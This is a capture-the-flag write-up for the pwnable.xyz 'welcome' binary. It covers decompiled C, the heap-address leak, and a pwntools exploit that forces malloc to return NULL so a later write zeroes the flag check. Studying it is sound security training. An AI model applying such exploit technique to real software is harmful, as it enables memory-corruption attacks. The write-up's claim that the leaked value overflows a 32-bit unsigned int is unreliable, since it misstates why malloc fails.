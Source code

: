 ```yaml
---
title: pwnable.xyz - welcome
date: '2025-05-22'
tags: ['pwn', 'malloc', 'pwnablexyz']
draft: false
summary: malloc failing by integer overflow causing NULL
---
```


## Overview

malloc failing by integer overflow causing NULL which satisfies a
condition in getting the flag

![Description](/static/images/pwnablexyz/4.png)

<TOCInline toc={props.toc} exclude="Overview" />

***

## Analysis

We are given a binary with the following protections

```
❯ checksec challenge

[*] '/home/mfkrypt/pwn-learning-notes/pwnablexyz/welcome/challenge'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
```

We can observe all protections are enabled. Running the binary itself reveals a leak

![Description](/static/images/pwnablexyz/1.png)

Let us now check the decompiled source

```c 
undefined8 main(void)

{
  long *malloc_ret;
  void *buffer;
  long in_FS_OFFSET;
  size_t length;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setup();

  puts("Welcome.");
  malloc_ret = (long *)malloc(262144);
  *malloc_ret = 1;  // Stores the integer 1 at the beginning of that allocated memory

  __printf_chk(1,"Leak: %p\n",malloc_ret);
  __printf_chk(1,"Length of your message: ");

  length = 0;
  __isoc99_scanf(&DAT_00100c50,&length);
  buffer = malloc(length);
  __printf_chk(1,"Enter your message: ");

  read(0,buffer,length);
  *(undefined *)((long)buffer + (length - 1)) = 0;

  write(1,buffer,length);
  if (*malloc_ret == 0) {
    system("cat /flag");
  }

  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  
  return 0;
}
```

We can see over here:

```c
malloc_ret = (long *)malloc(262144);
*malloc_ret = 1;
```

`malloc` returns a pointer, `malloc_ret` and assigned an integer value of `1` . It will probably look like this in memory:

```
0x7fad99950010:  0x0000000000000001
```

In this line:

```c
 __printf_chk(1,"Leak: %p\n",malloc_ret);
```

It leaks the heap address of the returned `malloc` pointer. Other than that,&#x20;

```c
__isoc99_scanf(&DAT_00100c50,&length);
buffer = malloc(length);

read(0,buffer,length);
```

Allocates the `length` we input which is a `long integer` type to allocate memory to a buffer and then reads up the buffer up to the `length` .

And the part below writes a null byte at the last byte of the input buffer

```c
*(undefined *)((long)buffer + (length - 1)) = 0;
write(1,buffer,length);
```

if the returned `malloc` integer value is `0` , we get the flag

```c
if (*malloc_ret == 0) {
    system("cat /flag");
  }
```

***

## Plan

Looking at the man page of `malloc`

![Description](/static/images/pwnablexyz/2.png)

On error, `malloc` returns NULL . Okay, soooo how does this affect what we are going to do? Well, since the program leaks an address, we can take advantage of that address and use it as a size to fail `malloc` when it allocates memory.

The leaked heap pointer isn’t used as a pointer in the logic — it’s used as a large number to trigger `malloc` failure.

Why does it error or fail? For example, the leaked pointer address is `0x7fb304b31010` the equivalent in decimal is `140406854717456` . That is 14TB of memory which is way too huge since the max value for `unsigned int` is `4,294,967,295` .

![Description](/static/images/pwnablexyz/3.png)

On a 32-bit `unsigned int`, very large values like the leaked address, `0x7fb304b31010` will overflow and may result in a small or even negative signed `int` when passed to `malloc`, which causes it to fail and return `NULL`

After overflowing the pointer of `malloc` In this line:

```c
*(undefined *)((long)buffer + (length - 1)) = 0;
```

the `buffer` turns to `NULL` after the error:

```c
NULL + length - 1 = length - 1
```

That `length - 1` ends up being **exactly** the leaked address `malloc_ret` . So to make up for this we need to input the `leak_address + 1` to cancel the `length - 1` . But we need to convert them into a `str` type because `scanf` here expects a string input of the `unsigned long int` .

***

## Exploit

We can manipulate `length` such that `malloc(length)` returns `NULL`, and therefore `buffer = NULL`. Then:

```c
*(buffer + length - 1) = 0;
// becomes:

*(NULL + leaked_address) = 0;
// which writes a zero byte to *malloc_ret
```

Here is the script:

```python
from pwn import *

elf = context.binary = ELF('./challenge', checksec=False)
libc = elf.libc

gs = '''
c
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)


def exploit():
    io = start()

    io.recvuntil(b'Leak: ')
    leak = int(io.recvline(), 16)

    log.success(f"Leaked malloc address: {hex(leak)}")

    io.sendlineafter(b'Length of your message: ', str(leak + 1))
    io.sendlineafter(b'Enter your message: ', "cool")

    io.interactive()


if __name__ == "__main__":
    exploit()
```